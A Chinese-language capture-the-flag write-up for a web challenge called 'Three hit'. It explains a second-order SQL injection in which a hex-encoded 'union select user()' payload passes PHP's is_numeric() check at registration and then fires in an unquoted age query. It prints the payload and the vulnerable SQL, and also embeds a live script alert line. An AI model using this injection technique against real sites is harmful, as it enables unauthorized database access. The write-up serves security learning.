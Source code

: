 ```yaml
---
layout: post
title: Three hit
categories: [web]
tags: [web]
fullview: false
comments: true
---
```


# 1.题目源码   

[https://github.com/ZhangAiQiang/three-hit](https://github.com/ZhangAiQiang/three-hit)    



<script>alert("震惊")</script>  

# 2.is_numeric()漏洞

is_numeric()检查是否是数字字符串，同时也可以是十六进制。  

比如  

>     is_numeric(1) true
>     is_numeric('a') false
>     is_numeric('2a') false
>     is_numeric(0xabcedf) true  

# 3.注册账号


>     root,root,0x3078656520756E696F6E2073656C656374207573657228292C322C33
>     age是一串十六进制，是
>     0xee union select user(),2,3  的十六进制形式
>     因为is_numeric()的关系，同样可以写进去，那么会是什么格式呢  

# 4.分析注册的时候的源码  

>     $sql="insert into user values('$username',md5('$password'),$age)";

可以看到$age是没有单引号保护的，那我们看一下数据库中的数据  

![](https://i.imgur.com/edi4jzk.png)  

(这里先说下，age并不是int类型，因为是int类型的话，字符串根本插不上。)  


我们明明是插入的十六进制数据，为什么会变成字符串呢？  

执行一下sql:   

>       insert into user values('root2',md5('root2'),0x3078656520756E696F6E2073656C656374207573657228292C322C33)
>       insert into user values('root3',md5('root3'),'0x3078656520756E696F6E2073656C656374207573657228292C322C33')

![](https://i.imgur.com/q4CXsdy.png)

两者的区别在于，age是否有单引号的保护，我们看到，当少了单引号后，插入的十六进制数据变成了字符串，和题目的源码正好对应了起来。  


# 5. 个人中心  

![](https://i.imgur.com/YvFrhhn.png)  

可以看到，已经注入出来了user。  

# 6.分析个人中心的源码  

username是存储在session里面的，然后功能是先找出你当前用户的age，然后根据当前用户的age寻找其他的具有相同age的用户。  
>     
$sql = "SELECT *  FROM user where username= '".$_SESSION['username']."'"; 这一句话查询出年龄，并没有什么危害。  

>     $sql = "SELECT *  FROM user where age=".$age; 
>     这句话是二次注入的引发点，因为age我们是可控的，我们注册的root账号里面age内容是  
>     0xee union select user(),2,3  
>     拼接:select * from user where age=0xee union select user(),2,3  

这样诸如就分析完了。  

# 7.总结:

age得为字符串类型  

插入注册信息的时候age字段没有单引号保护

我感觉就拿这个题目来说的话，平时工作谁会写出这么蠢的代码。